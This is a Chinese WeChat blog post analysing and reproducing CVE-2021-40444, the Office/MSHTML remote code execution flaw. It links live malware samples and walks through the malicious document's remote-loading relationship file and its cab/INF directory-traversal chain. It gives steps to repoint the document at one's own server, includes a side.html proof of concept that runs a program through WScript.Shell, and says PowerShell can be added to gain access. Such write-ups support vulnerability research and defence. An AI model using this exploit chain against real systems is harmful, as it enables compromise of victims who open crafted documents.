 #  0Day - CVE-2021-40444 分析与利用

原创 校长  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

最近这个CVE-2021-40444挺多人想复现的，于是今天就抽空的来看了一下。

 **样本:**

`https://bazaar.abuse.ch/sample/938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52/`

`https://bazaar.abuse.ch/sample/d0fd7acc38b3105facd6995344242f28e45f5384c0fdf2ec93ea24bfbc1dc9e6`

`https://bazaar.abuse.ch/sample/1fb13a158aff3d258b8f62fe211fabeed03f0763b2acadbccad9e8e39969ea00`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222738.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222744.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222745.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222746.png)

## 0x02 分析

在测试环境中打开文档

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222747.png)是的，它在远程加载！

我们先开启开发工具

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222748.png)

然后解压我们下载的`.docx`,使用`7-Zip`来提取文件

![]()`\word\_rels\document.xml.rels`找到这个文件然后打开它

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222749.png)发现时通过`MSHTML`来进行远程代码执行

查看它的`html`文件，该文件包含混淆的
`JavaScript`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222751.png)

提取一下下载的`.cab`文件，发现里面从提取出名字为`Championship.inf`的文件，并使用目录遍历攻击来运行该文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222752.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222753.png)

梳理一下，它是通过打开文档来远程加载文件地址，然后在本地执行`cab文件`并且在内存中加载`Championship.inf`

这么看来其实利用很简单！

## 0x03 复现

我们自己本地配置一下环境
修改`\word\_rels\document.xml.rels`把原先地址修改成我们的![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222754.png)

参考文档:

`https://www.freebuf.com/articles/network/243747.html`

 **side.html:**

    
    
    <html>  
    <head>  
    <meta http-equiv="Content-Language" content="en-us">  
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">  
    <title>Outlook</title>  
    <script id=clientEventHandlersVBS language=vbscript>  
      
    <!--  
     Sub window_onload()  
         Set cmd = CreateObject("Wscript.Shell")  
         cmd.Run("calc")  
     End Sub  
    -->  
    </script>  
    </head>  
    <body>  
    <h1>CVE-2021-40444</h1>  
     <object classid="clsid:edbc374c-5730-432a-b5b8-de94f0b57217" id="ViewCtl1" data="" width="100%" height="100%"></object>  
    </body>  
    </html>  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222756.png)

## 0x04 结尾

稍微的结合一下`Powershell`即可打开获取权限![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222757.png)

 **  
**

 **题外话(知识星球):** 分享Red Team技巧｜资源｜工具 等等 我的学习笔记也会发在这里，顺便督促自己不断学习 &&
偶尔比较佛，或者有事会断更。但是校长一定会一直更新下去的！包括但不限于红队内容。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222758.png)

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0Day - CVE-2021-40444 分析与利用

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

